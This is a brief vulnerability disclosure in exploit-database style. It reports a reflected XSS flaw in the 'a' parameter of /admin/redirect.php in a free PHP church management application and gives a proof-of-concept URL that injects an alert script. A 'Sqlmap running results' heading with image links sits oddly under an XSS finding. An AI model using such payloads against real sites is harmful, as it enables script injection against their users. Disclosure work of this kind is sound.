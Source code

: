 ### Exploit Title: Best church management software - xss
### Date: 2025-02/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
### Version: 1.0
### Tested on: windows10 + phpstudy

# 1./admin/redirect.php Parameter a has xss

### Sample request POC #1

```
http://localhost:8001/admin/redirect.php?a=%3Cscript%3Ealert(1)%3C/script%3E
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739240731354.jpg "Best church management software")

![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/1739240708154.jpg "Best church management software")
